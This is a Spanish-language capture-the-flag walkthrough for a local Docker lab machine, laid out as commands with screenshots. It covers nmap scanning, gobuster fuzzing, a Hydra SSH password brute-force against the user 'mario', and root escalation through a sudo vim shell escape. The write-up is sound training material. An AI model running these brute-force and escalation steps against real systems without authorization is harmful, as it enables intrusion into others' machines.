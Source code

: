 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

Escaneamos la IP:

![Pasted image 20250129163249](https://github.com/user-attachments/assets/90c23bdb-2ae9-4093-8e5a-db4f5ca2c964)

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.18.0.2
```

![Pasted image 20250129163344](https://github.com/user-attachments/assets/cc8d490d-087f-4f88-a79c-0d539683e013)

Hacemos fuzzing:

```Bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh
```
![Pasted image 20250129163713](https://github.com/user-attachments/assets/735bf5b0-3137-49bd-8df7-1eea577d0699)

Comprobamos el directorio:

![Pasted image 20250129163612](https://github.com/user-attachments/assets/9e1db405-f2ea-4378-84c2-331fd50ee6db)

Nos dice un nombre (Mario)

Fuerza Bruta con **Hydra**:

```Bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.18.0.2 -t 64
```

![Pasted image 20250129163905](https://github.com/user-attachments/assets/eeaab2a1-c19a-411e-ba23-d399465d4887)

Nos conectamos con SSH

```Bash
ssh mario@172.18.0.2
```

![Pasted image 20250129163946](https://github.com/user-attachments/assets/16477f3d-fb19-4a7d-8846-f50e653a75f7)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250129164036](https://github.com/user-attachments/assets/31b94fbc-f85b-4e14-a1f5-13f25a594e48)

```Bash
sudo vim -c ':!/bin/bash'
```

![Pasted image 20250129164103](https://github.com/user-attachments/assets/b696e89f-0625-4fd9-9e07-b4f7b7910966)

o también:

```Bash
sudo -u root /usr/bin/vim
```

![Pasted image 20250129164139](https://github.com/user-attachments/assets/3c87b144-bf66-4b67-9627-7a70fecdc133)

```Bash
:!/bin/bash
```

![Pasted image 20250129164211](https://github.com/user-attachments/assets/0d3ef320-30bb-411c-a8f5-1510e99295d0)

![Pasted image 20250129164233](https://github.com/user-attachments/assets/10e9dea0-638c-4206-8225-eafaa57d0c31)

Otra forma de elevar:

```Bash
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

![Pasted image 20250129164322](https://github.com/user-attachments/assets/2c93b86b-0e35-4012-80b0-c8c82fecfece)

```Bash
whoami
```

![Pasted image 20250129164345](https://github.com/user-attachments/assets/865a8fbf-e26d-44f8-8d5b-6f6194e96d6d)
